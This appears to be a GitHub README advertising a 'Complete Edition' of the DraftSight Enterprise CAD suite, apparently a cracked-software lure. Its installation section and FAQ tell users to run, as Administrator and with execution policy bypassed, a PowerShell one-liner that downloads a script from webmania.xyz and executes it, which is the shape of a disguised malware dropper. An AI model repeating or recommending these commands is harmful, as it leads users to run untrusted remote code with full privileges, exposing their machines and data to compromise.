

<div align="center">


<br>


# DraftSight Enterprise Plus CAD Ultimate
**Enterprise CAD platform · Advanced 2D drafting · Ultimate productivity suite**
<br>
**Enterprise CAD platform · Advanced 2D drafting · Ultimate productivity suite**
<br>
Enterprise Setup · Pro Build · Windows · Complete



**Complete Edition — all enterprise CAD modules and ultimate drafting features enabled.**

</div>
---

> Licensed enterprise CAD suite with advanced drafting and every ultimate productivity module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📐 **Pro modeling** — Advanced CAD and engineering tools enabled.
🔧 **Simulation ready** — Analysis and drafting modules included.
📦 **Local workstation** — Full desktop install for Windows.
🖥️ **64-bit optimized** — Built for engineering PCs.
📋 **Complete toolkit** — Templates and libraries supported.
⚙️ **Pro workflow** — Suitable for daily technical work.
⚡ **One-command setup** — PowerShell automates installation.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 2 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 2 GB.
</details>


TAGS
draftsight, enterprise-cad, 2d-drafting, productivity-tools, dwg-editing, design-collaboration, enterprise, windows, desktop, software, pro, studio, tools
